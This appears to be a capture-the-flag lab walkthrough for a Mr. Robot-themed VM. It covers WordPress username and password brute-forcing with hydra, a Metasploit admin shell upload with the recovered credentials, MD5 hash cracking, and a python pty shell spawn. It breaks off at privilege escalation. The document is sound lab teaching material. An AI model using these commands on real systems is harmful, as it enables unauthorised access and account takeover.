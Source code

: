 # Setting Up the Virtual Lab for Machine, I am using Virtual Box 
# Creating a Virtual Lab
1. create a NAT Network in Virtual Box
![alt text](image.png)

2. Go to Network Setting and connect the machines network to created NAT Network
![alt text](image-1.png)

3. Now Start Both the Machines

# Phase 1: Reconnaissance

This VM gets it’s IP address from the DHCP, so through a quick network scan, I saw that the machine was running on 192.168.100.4

For a convenince, I have given a host to server 192.168.100.4 as hacknest.net
![alt text](screenshots/image-3.png)


 Time to make some notes again. There are two main services active across three ports. An SSH server and an Apache webserver. We can also see it’s running on a VirtualBox, not that it matters for our assessment or not like we didn’t already know this.

# Phase 2: Information Gathering
As port 80 is open let's open it up in browser,
![alt text](screenshots/webpage.png)

On the website, a boot animation loads, giving us some sort of fake web shell. Upon further investigation, I noticed that the commands don’t really do anything special, other than giving some videos

As it is a web server lets open robots.txt,

![alt text](screenshots/robot.png)

### BAMM !! 🔓 We got our our first flag 
Download the Key 1 file to get the flag

![alt text](screenshots/flag_1.png)

We also got a fsocity.dic, I come to know from its extension that it is a dictionary file, now lets check its content,I sorted and filtered unique values from file and got around 11k words

![](screenshots/sort.png)

### Let's Scan the website for login page to get adminstrative rights for website

Here I am using nikto to scan the web server

`nikto -h hacknest.net `

#### Here's the result of the Nikto and we got that website is running on wordpress and also the login URL..

![nikto output](screenshots/login_scan.png)


![wordpress Login Page](screenshots/login_page.png)


# Phase 3: Exploitation
The great thing about this WordPress version is that you can enumerate usernames of users on the WordPress installation. How? Basically as follows:

If you write some random gibberish in the login form, you will get the following error:

> ERROR: Invalid username. Lost your password?

If, however, you get a valid username, you’ll get a different error:

> ERROR: The password you entered for the username pablo is incorrect. Lost your password?

Knowing this, we can try a bunch of usernames and check if there is any difference in the error messages. We have our wordlist from before, so it would be my first guess to try that one.

The tool we’re going to be using is hydra. The best tool for bruteforcing anything. But before we go ahead and launch it, we need to check what the requests to log into a WordPress site looks like.

In order to capture that request, I’m going to use Burp Suite as a proxy in between my browser and the target.

![burp request](screenshots/burp.png)

We see 3 important parameters:

-   **log**  — The username
-   **pwd**  — The password
-   **wp-submit**  — The “thing” we’re submitting (log in)


Let’s throw this into hydra:

```bash

hydra -L fsocity_filtered.dic -p something 192.168.1.56 http-post-form ‘/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username’
```

-   -L fsocity_filtered.dic — Here we will bruteforce the login using our wordlist we found earlier
-   -p — Here we supply a password, at this stage, we only want the username, so it doesn’t matter what we fill in here
-   192.168.1.56 — Our target
-   http-post-form — The method we’re bruteforcing, in this case, a POST request

![hydra_username](screenshots/username.png)

**Elliot**  seems to be our username, now let’s do this again but checking for the password. The new hydra command will be:

```bash
hydra -l elliot -P fsocity_sorted.dic hacknest.net http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit-Log+In:F=is incorrect' 
```
![password cracked](screenshots/passwd_crack.png)


Now we can leverage the WordPress admin to get a shell on the webserver. For this, we’ll use Metasploit.

### Start the metasploit using following command
```bash
msfconsole
```

#### Search for the wordpress shell exploit and use it

```bash
msf6 > search wordpress shell
```

#### Select and copy the following exploit
```bash
exploit/unix/webapp/wp_admin_shell_upload
```

#### Now configure the exploit for target:
```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.100.4

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME elliot

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD ER28–0652

exploit
```

#### When I exploit it,I got the following error:
![wp-error image](screenshots/err.png)

#### The error occured because the WordPress installation isn’t really being used, but still we can get the admin privileges

We can set **wpcheck false** and run the exploit

### Bammm ! we got the meterprter shell and now we have to search for the 2nd flag
![meterprester session](screenshots/session.png)


If we now go to the user’s desktop at /home/robot, we can see the second key there, as well as a file called password.raw-md5.

![shell](screenshots/user.png)

# Phase 4: Privilege Escalation

Looking at the contents of that raw-md5 file, we can indeed see an MD5 hash for the account ‘robot’.


> robot:c3fcd3d76192e4007dfb496cca67e13b

#### I cracked the MD5 hash using [CyberChef](https://gchq.github.io/CyberChef/) and [crackstation](https://crackstation.net/)

#### The hash in plain text is **abcdefghijklmnopqrstuvwxyz**

### Now let's try logging in as robot
### I got the following error:
![error](screenshots/err2.png)

### Its telling us to start the tty shell, we can start the tty shell using python command as follows:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

